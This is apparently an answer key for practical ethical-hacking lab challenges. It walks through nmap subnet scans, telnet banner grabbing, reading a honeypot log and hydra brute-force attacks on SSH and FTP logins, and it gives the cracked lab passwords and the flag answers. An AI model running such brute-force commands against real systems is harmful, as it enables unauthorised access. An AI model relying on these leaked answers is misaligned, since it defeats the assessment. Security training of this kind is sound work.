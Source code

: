 Challenge 3:
A honeypot has been set up on a machine within the 192.168.10.0/24 subnet to monitor and detect malicious network activity. Your task is to analyze the honeypot log file, cowrie.log, located in the Downloads folder of EH Workstation -2, and determine the attacker IP trying to access the target machine. (Format: NNN*NN*NN*NN)
Answer:
1.	Parrot Linux
2.	terminal ->sudo su -> cd /home/attacker/Downloads
3.	tail cowrie.log
4.	“2024-09-11 T01:41:49:8859512 [HoneyPotSSHTransport, 5, 172.30.10.99] Login attempt failed
5.	172.30.10.99




Challenge 4:
Conduct a footprinting analysis on the target website www.certifiedhacker.com to determine the content length. (Format: NNN)
Answer:
1.	Parrot -> terminal -> sudo su
2.	telnet www.certifiedhacker.com 80
3.	GET HTTP/1.0
4.	content length: 347

Challenge 5:
You’re a cybersecurity investigator assigned to a high-priority case. Martin is suspected of engaging in illegal crypto activities, and it’s believed that he has stored his crypto account password in a file named $ollers.txt. Your mission is to crack the SSH credentials for Martin’s machine within the 192.168.10.0/24 subnet and retrieve the password from the $ollers.txt file. (Hint: Search in the folders present on the Desktop to find the target file) (Format: aNaa**NNNNNAA*)
Answer: 
l for username( lower case) and L for list of usernames
1.	First nmap 192.168.10.0/24 and look for the IPs with ssh open
2.	2 IPs have ssh open, we have to try brute forcing with both 192.168.10.111 & 192.168.10.101
3.	hydra -l martin -P /home/attacker/Desktop/password.txt ssh://192.168.10.101  
4.	martin/qwerty1234
5.	ssh Martin@192.168.10.101 ( enter password when prompted)
6.	cd C:\Users\Martin\Desktop
7.	TYPE $ollers.txt
8.	i2tr&^72546HJ*



Challenge 6:
Attackers have identified a vulnerable website and stored the details of this website on one of the machines within the 192.168.10.0/24 subnet. As a cybersecurity investigator you have been tasked to crack the FTP credentials of user nick and determine the ID of the domain. The information you need has been gathered and stored in the w_domain.txt file. (Format: NNNNNNNNNN)
Answer:
1.	Nmap the ip subnet and brute force using hydra on IPs with open FTP service
2.	nmap 192.168.10.0/24 : 192.168.10.222, 192.168.10.144, 192.168.10.111, 192.168.10.101
3.	hydra -l nick -P /home/attacker/Desktop/password.txt ftp://192.168.10.111 
4.	nick/apple
5.	ftp 192.168.10.111 ( enter nick/apple credentials)
6.	ls -> cd Desktop -> ls
7.	get w_domain.txt -> bye
8.	cat w_domain.txt
9.	id = 7867721010
